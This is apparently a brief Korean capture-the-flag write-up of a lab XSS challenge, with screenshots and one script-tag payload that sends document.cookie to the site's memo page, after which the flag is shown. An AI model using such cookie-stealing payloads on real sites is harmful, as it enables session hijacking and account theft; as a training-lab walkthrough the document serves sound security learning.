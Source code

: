 <img src="https://velog.velcdn.com/images/silvergun8291/post/12c1903c-92cb-4055-9fd9-6b086a16ac40/image.png">

문제 사이트에 접속하면 3개의 연결된 페이지들의 목록이 나옵니다.

#

![](https://velog.velcdn.com/images/silvergun8291/post/214fb9f1-1837-4480-9b4c-b69af70254fc/image.png)

flag 페이지로 들어가면 입력창이 떠서 XSS 공격을 시도해볼 수 있습니다.

<br>

```html
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

script 태그를 이용해서 XSS 공격을 시도해 보면

#

<img src="https://velog.velcdn.com/images/silvergun8291/post/bfe59d5d-23da-48e2-99a7-92c22373df13/image.png">

공격이 성공해서 FLAG가 출력되었습니다.




